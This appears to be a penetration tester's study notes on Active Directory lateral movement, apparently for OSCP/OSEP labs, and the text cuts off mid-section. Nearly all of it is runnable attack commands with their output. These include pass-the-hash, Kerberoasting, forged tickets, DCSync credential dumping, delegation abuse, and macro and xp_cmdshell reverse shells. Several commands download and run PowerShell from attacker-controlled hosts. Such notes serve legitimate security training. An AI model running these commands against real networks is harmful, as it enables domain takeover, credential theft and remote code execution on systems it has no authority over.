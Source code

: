 # Lateral Movement

<details>

<summary>Admin Password Reuse</summary>

Using crackmapexec:

```bash
└─# crackmapexec smb 10.11.1.20-24 -u administrator -H 'ee0c207898a5bccc01f38115019ca2fb' --local-auth --lsa 
SMB         10.11.1.22      445    SVCLIENT08       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT08) (domain:SVCLIENT08) (signing:False) (SMBv1:True)
SMB         10.11.1.21      445    SV-FILE01        [*] Windows Server 2016 Standard 14393 x64 (name:SV-FILE01) (domain:SV-FILE01) (signing:False) (SMBv1:True)
SMB         10.11.1.24      445    SVCLIENT73       [*] Windows 10 Pro N 14393 x64 (name:SVCLIENT73) (domain:SVCLIENT73) (signing:False) (SMBv1:True)
SMB         10.11.1.20      445    SV-DC01          [*] Windows 10.0 Build 17763 x64 (name:SV-DC01) (domain:SV-DC01) (signing:True) (SMBv1:False)
SMB         10.11.1.22      445    SVCLIENT08       [+] SVCLIENT08\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!)
SMB         10.11.1.21      445    SV-FILE01        [-] SV-FILE01\administrator:ee0c207898a5bccc01f38115019ca2fb STATUS_LOGON_FAILURE 
SMB         10.11.1.24      445    SVCLIENT73       [+] SVCLIENT73\administrator:ee0c207898a5bccc01f38115019ca2fb (Pwn3d!
```

* Login with impacket psexec using hashes

```bash
impacket-psexec jimmy@192.168.35.142 -hashes ee0c207898a5bccc01f38115019ca2fb
```

</details>

<details>

<summary>Obtain Kerberos Ticket</summary>

* Sync the Kali's timing with the DC timing.

```bash
ntpdate <dc_ip>
```

* To collect the Kerberos Ticket

```bash
impacket-GetUserSPNs hacker.local/Administrator:Password1 -dc-up 192.168.35.142 -request
```

</details>

<details>

<summary>Getting TGT from Service</summary>

For pass the ticket attack

```bash
impacket-GetNPUsers -dc-ip 10.10.10.10 active.htb/SVC-TGS -no-pass
```

</details>

<details>

<summary>Pass the Hash</summary>

* Works only for server or service using NTLM authentication, not Kerberos authentication.
* Requires local administrative permissions.

Retrieve the content of the Windows Security Account Manager (SAM) file to dump client01's hashes.

```sh
reg save hklm\sam c:\windows\temp\sam
```

```sh
reg save hklm\system c:\windows\temp\system
```

```sh
impacket-secretsdump -system system -sam sam local
```

```bash
impacket-secretsdump Hacker.local/hguy:password@192.168.35.144'
```

Connect to victim by passing the hash

```sh
impacket-psexec Administrator:@192.168.199.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```

* hashes in the format: \<LM>:\<NT>
* LM hashes discontinued since Win10

</details>

<details>

<summary>Pass the Hash with Computer Account</summary>

```bash
sekurlsa::pth /user:web01$ /domain:EVIL.COM /ntlm:f4528218862ef1bed4c351d7b10d77fd
```

</details>

<details>

<summary>Kerberoasting</summary>

To obtain TGS-REP hash to crack service accounts passwords.

### Invoke-Kerberoast.ps1

Collects a list of service accounts along with their correlating password hashes

```sh
powershell -ep bypass -c "Import-Module .\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

### Rubeus.exe

[https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
C:\temp>Rubeus.exe kerberoast
Rubeus.exe kerberoast

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: Kerberoasting
...
```

### GetUserSPNs.py

* Good when don't have access to the victim
* On the attacker:

```bash
GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

### Transferring Files

```sh
python2.7 -m pyftpdlib -p 21 --write
```

### Cracking Hashes

```sh
hashcat -m 13100 -a 0 kerb.txt /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Overpass the Hash</summary>

* “Over” abuse a NTLM user hash to gain a full Kerberos Ticket Granting Ticket or service ticket
* Requires local admin rights

1. Obtain the NTLM hash first&#x20;

```
mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

2. Creates a new PowerShell process in the context of the Jeff\_Admin user

```
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

3. Inside the new Powershell session, generate a TGT by authenticating to a network share on the domain controller.&#x20;

```powershell
net use \\dc01
```

* We used "net use" arbitrarily in this example but we could have used any command that requires domain permissions and would subsequently create a TGS.

```
klist
```

4. Since we have generated Kerberos tickets and operate in the context of Jeff\_Admin in the PowerShell session, we may reuse the TGT to obtain code execution on the domain controller

```
.\PsExec.exe \\dc01 cmd.exe
```

</details>

<details>

<summary>Pass the Ticket</summary>

Takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service.

1. Obtain SID of user

```sh
whoami /user
```

* Eg: SID:S-1-5-21-1602875587-2787523311-2599479668-1103 (Don't include 1103)&#x20;

2. Use Mimikatz

```bash
kerberos:purge
```

```bash
kerberos::list
```

* Ensure that no kerberos ticket is present

```bash
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

* To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.

```
kerberos::list
```

3. Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket.

</details>

<details>

<summary>NTDSam</summary>



</details>

<details>

<summary>DCSync</summary>

### From Bloodhound:

![](<../.gitbook/assets/image (140).png>)

### Using Secretsdump

```bash
secretsdump.py -just-dc svc_loanmgr@10.10.10.175 -outputfile dcsync_hashes
#Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

#Password:
#[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
#[*] Using the DRSUAPI method to get NTDS.DIT secrets
#Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

### Using Mimikatz (Powershell)

* Download Invoke-Mimikatz.ps1 from [here](https://github.com/phra/PowerSploit/raw/4c7a2016fc7931cd37273c5d8e17b16d959867b3/Exfiltration/Invoke-Mimikatz.ps1)

```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:administrator"'
# OR
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator"'
```

</details>

<details>

<summary>Cracking Mscash (Cached Domain Credentials)</summary>

[https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)

```bash
secretsdump.py administrator@172.16.197.11 -hashes :f1014ac49bae005ee3ece5f47547d185 
# MEDTECH.COM/Administrator:$DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# MEDTECH.COM/yoshi:$DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# MEDTECH.COM/wario:$DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
```

### Format into $DCC2$10240#username#hash format for hashcat&#x20;

```bash
echo ; cat hashes.txt ; echo ; cut -d ":" -f 2 medtech_hashes
# $DCC2$10240#Administrator#a7c5480e8c1ef0ffec54e99275e6e0f7
# $DCC2$10240#yoshi#cd21be418f01f5591ac8df1fdeaa54b6
# $DCC2$10240#wario#b82706aff8acf56b6c325a6c2d8c338a
# $DCC2$10240#joe#464f388c3fe52a0fa0a6c8926d62059c
```

### Crack with Hashcat

```bash
hashcat -m 2100 -a 0 hash.txt rockyou.txt
```

</details>

<details>

<summary>WriteDacl (Bloodhound)</summary>

* Download PowerView from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

#### On Victim:

```bash
*Evil-WinRM* PS C:\temp> Bypass-4MSI
Info: Patching 4MSI, please be patient...
[+] Success!

*Evil-WinRM* PS C:\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.4/PowerView.ps1')

*Evil-WinRM* PS C:\temp> net user john abc123! /add /domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net group "Exchange Windows Permissions" john /add
# Needed cuz based on bloodhound, exhange windows permissions group has writedacl privileges for domain
The command completed successfully.
*Evil-WinRM* PS C:\temp> net localgroup "Remote Management Users" john /add
The command completed successfully.

*Evil-WinRM* PS C:\temp> $pass = convertto-securestring 'abc123!' -asplain -force
*Evil-WinRM* PS C:\temp> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
*Evil-WinRM* PS C:\temp> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
```

#### On Attacker:

```bash
secretsdump.py htb/john@10.10.10.161
# [*] Using the DRSUAPI method to get NTDS.DIT secrets
# htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

</details>

<details>

<summary>Distributed Component Object Model</summary>

* is a system for creating software components that interact with each other within or across processes.

- Requires Local admin (to call the DCOM Service Control Manager)
- Requires port 135, 445
- Requires Microsoft office to be installed on target

1. Create an instance of the Object on the target

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))
```

2. Check the available methods for the object

```powershell
$com | Get-Member
```

* If it has the `Run` method, attacker is able to execute Visual Basic for Applications (VBA) macro remotely.

3. Generate Reverse shell payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
```

4. Extract from the generated payload, the line starting with `powershell.exe -nop -w hidden -e` followed by the Base64 encoded payload and use the simple Python script to split the command into smaller chunks (ensuring that the literal strings limit in Excel macros is met.)

```python
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."

n = 50

for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
```

5. Put the reverse shell payload into macro

```vba
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
    Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
    Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
    Shell (Str)
End Sub
```

* Save the file in `Excel 97-2003 Workbook` format.

6. Transfer the file over to target using SMB, open the excel file and run the macro.

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "192.168.1.110"))

$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"

$RemotePath = "\\192.168.1.110\c$\myexcel.xls"

[System.IO.File]::Copy($LocalPath, $RemotePath, $True)

$Path = "\\192.168.1.110\c$\Windows\sysWOW64\config\systemprofile\Desktop"

$temp = [system.io.directory]::createDirectory($Path)

$Workbook = $com.Workbooks.Open("C:\myexcel.xls")

$com.Run("mymacro")

```

</details>

<details>

<summary>Dump Domain Admin Hash from DC</summary>

```bash
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:prod.corp1.com /user:prod\administrator
evil-winrm  -i 192.168.70.70 -u administrator -H 2892d26cdf84d7a70e2eb3b9f05c425e
```

</details>

<details>

<summary>Change Domain Admin password</summary>

* From high privilege shell
* Changes the password to `password`

```sh
net user /domain administrator password
```

</details>

<details>

<summary>Open CMD Prompt as Another User</summary>

```bash
runas /user:corp\jen powershell.exe
```

</details>

## OSEP Notes below

<details>

<summary>Stealing Keytab files (Linux AD)</summary>

* Contains a kerberos principal name & encrypted keys
*   ```bash
    kinit administrator@CORP1.COM -k -t /tmp/administrator.keytab
    ```


* Verify that tickets from keytab have been loaded && renew tickets
  *   ```bash
      klist
      kinit -R
      ```


* Remove all kerberos tickets
  * ```bash
    kdestroy
    ```

</details>

<details>

<summary>Stealing Credential Cache Files (Linux AD)</summary>

* Check for presence with&#x20;
  *   ```bash
      ls -al /tmp/krb5cc_*
      ```

      If not present but has domain user on linux box --> try to [ssh into that domain user](../services/22-ssh.md#ssh-persistency) (add attacker's SSH public key to domain user authorized host & ssh as domain user) and `ls -la /tmp/krb5cc_*`
* Copy credential cache files to Kali
  *   ```bash
      scp root@linuxvictim:/tmp/krb5cc_607000500_qZWKpe .
      #scp -i  ssh_key pete@complyedge.com@web05:/tmp/krb5cc_75401103_PlYU68 .
      ```


* Set environment variable on Kali
  *   ```bash
      export KRB5CCNAME=/home/kali/Documents/offsec/linux_lateral_movement/krb5cc_607000500_qZWKpe
      ```


*   Install the following, if required

    * ```bash
      sudo apt install krb5-user
      ```


* Add target DC and generic domain to /etc/hosts
  *

      <figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* IMPT: THE SOURCE OF THE KERBEROS REQUEST MATTERS!!! --> SET UP [LIGOLO-NG!](../post-exploitation/port-forwarding-pivoting.md#ligolo-ng)
* Then, can
  * <pre class="language-bash"><code class="lang-bash"><strong>impacket-psexec Administrator@DC01.CORP1.COM -k -no-pass
    </strong></code></pre>

</details>

<details>

<summary>Creating Keytab files (Linux AD)</summary>

* Create in /tmp/administrator.keytab
* ```bash
  ktutil
  addent -password -p administrator@CORP1.COM -k 1 -e rc4-hmac
  wkt /tmp/administrator.keytab
  quit
  ```

</details>

<details>

<summary>Creating Credential Cache Files (Linux AD)</summary>

* Acquire TGT for current user
  *   ```bash
      kinit
      ```


* List tickets currently stored in user's credential cache file
  *   ```bash
      klist
      ```


* Get a list of available SPN from DC
  *   ```bash
      ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName
      ```


* Request a service ticket from Kerberos for MSSQL SPN
  * ```bash
    kvno MSSQLSvc/DC01.corp1.com:1433
    ```

</details>

<details>

<summary>Abusing GenericAll</summary>

## For Domain User

* Change password of an account
  *   ```powershell
      net user testservice1 P@ssw0rd /domain
      ```


* Spawn new powershell.exe in context of testservice1
  *   ```powershell
      runas /user:prod\testservice1 powershell.exe
      ```



## For Domain Group

* ```powershell
  net group testgroup offsec /add /domain
  ```

</details>

<details>

<summary>Exploiting WriteDACL</summary>

* Can add new access rights like GenericAll, GenericWrite, or even DCSync
*

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* Adding GenericAll rights:
  *   ```powershell
      # Might need to migrate to sqlsvc process using metasploit

      # Load PowerView
      iex (new-object net.webclient).downloadstring('http://192.168.45.215/PowerView.ps1')

      # Modify sqlsvc to have full control over the mailadmins group
      Add-DomainObjectAcl -Rights 'All' -TargetIdentity "mailadmins" -PrincipalIdentity "sqlsvc"

      # Add sqlsvc to mailadmins domain group
      net group "mailadmins" sqlsvc /add /domain

      # Verify that sqlsvc is inside mailadmins group
      net user sqlsvc /domain
      ```



OR.. ![](<../.gitbook/assets/image (1).png>)

```powershell
#Current user is svc-alfresco
net user bill P@ssw0rd123! /add /domain
net group "Exchange Windows Permissions" bill /add
net localgroup "Remote Management Users" bill /add

iex (new-object net.webclient).downloadstring('http://10.10.14.20/PowerView.ps1')
$pass = convertto-securestring 'P@ssw0rd123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\bill', $pass)
Add-ObjectACL -PrincipalIdentity bill -Credential $cred -Rights DCSync
```

</details>

<details>

<summary>Exploiting GenericWrite on Another User</summary>

### Set Login Script for victim user

* Generate using [csharp\_shellcode python script](../good-exploit-code/c-shellcode-runner.md#process-injector-example)

```powershell
# Load PowerView
iex (new-object net.webclient).downloadstring('http://192.168.45.218/PowerView.ps1')

# Setup SMB server
sudo python3 /usr/local/bin/smbserver.py share . -smb2support

# Logon Script to point to rev shell exe
Set-DomainObject -Identity SHAUN.BLAKE -Set @{'scriptpath'='\\192.168.45.218\share\ProcessInjection.exe'}
```

### Cracking User's Password

* Able to set a service principal name and kerberoast that account
  *   ```powershell
      ./targetedKerberoast.py --dc-ip '192.168.170.70' -v -d 'prod.corp1.com' -u 'offsec' -p 'lab'
      ```


* Obtain TGS-REP hash
  *   ```bash
      hashcat -m 13100 hash.txt rockyou.txt
      ```



</details>

<details>

<summary>Exploiting GenericWrite on Computer Object (Including DC)<br></summary>

OR USE [RBCD FROM KALI ATTACKER MACHINE!!](lateral-movement.md#resource-based-constrained-delegation)

![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* Enumerating permissions assigned to current user
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
      ```


  * Since we have GenericWrite on appsrv01, we can update any non-protected property on that object, including msDS-AllowedToActOnBehalfOfOtherIdentity and add the SID of a different computer.

- <pre class="language-powershell"><code class="lang-powershell">iex (new-object net.webclient).downloadstring('http://192.168.45.206/Powermad.ps1')
  iex (new-object net.webclient).downloadstring('http://192.168.45.206/PowerView.ps1')

  # Create a fake computer account
  New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)
  Get-DomainComputer -Identity myComputer

  # Get the SID of myComputer$
  $sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid

  # Create a Security Descriptor for RBCD
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

  # Convert and Apply the Security Descriptor to appsrv01
  $SDbytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDbytes,0)
  Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

  # Verify That RBCD Was Configured
  $RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
  $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0
  $Descriptor.DiscretionaryAcl

  # Verify the SID Mapping
  ConvertFrom-SID S-1-5-21-634106289-3621871093-708134407-3601

  # Generate an NTLM Hash for myComputer$
  .\Rubeus.exe hash /password:h4x

  # Request a Ticket Granting Service (TGS) Ticket Using Rubeus
  .\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt

  # Verify Remote Access to appsrv01
  dir \\appsrv01.prod.corp1.com\c$

  # Obtaining code execution
  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=80 EXITFUNC=thread -f exe -o shell.exe
  copy shell.exe \\appsrv01.prod.corp1.com\C$\Windows\Temp\shell.exe
  wmic /node:appsrv01.prod.corp1.com process call create "C:\Windows\Temp\shell.exe"

  <strong>#OR 
  </strong>
  python3 mkpsrevshell.py 192.168.45.222 443
  wmic /node:appsrv01.prod.corp1.com process call create "powershell -e JABjAG.."

  </code></pre>

</details>

<details>

<summary>Exploiting ForceChangePassword</summary>

<figure><img src="../.gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>

Currently, pwned adminwebsvc@final.com --> part of webadmins grp --> able to ForceChangePassword for Nina

```powershell
iex(new-object net.webclient).downloadstring('http://192.168.45.160/PowerView.ps1')	
$NewPassword = ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force
Set-DomainUserPassword -Identity Nina -AccountPassword $NewPassword
```

</details>

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

```powershell
Import-Module powerview.ps1
Get-DomainComputer -Unconstrained
# Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
```

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
        *   ```powershell
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 krbrelayx.py -aesKey python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11) (1) (1) (1).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  * ```sql
    EXECUTE AS LOGIN = 'sa';
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {
          $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_
      } | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      ```


* Use ccache file
  * ```
    mv administrator@cifs_jump09.ops.comply.com@OPS.COMPLY.COM.ccache new_admin.ccache
    export KRB5CCNAME=/home/kali/Documents/offsec/challenges/5/new_admin.ccache
    ```
* Execute Commands as Administrator
  * ```powershell
    impacket-psexec administrator@backup01.corp.com -k -no-pass
    ```

</details>

<details>

<summary>Extra SID Attack</summary>

## FOR CHILD DOMAIN TO PARENT DOMAIN EG (prod.corp1.com to corp1.com)

## Using KRBTGT

* Extracts krbtgt hash for creating a Golden Ticket
  *   ```powershell
      lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
      ```


* Enumerate Domain & Trust Information (using powerview)
  *   ```powershell
      Get-DomainSID -Domain prod.corp1.com
      Get-DomainSid -Domain corp1.com
      ```


* Forge a Golden Ticket with Extra SIDs
  *   ```powershell
      # kerberos::golden /user:<FakeUser> /domain:<OriginDomain> /sid:<OriginDomainSID> /krbtgt:<krbtgtHash> /sids:<RootDomainSID>-519 /ptt
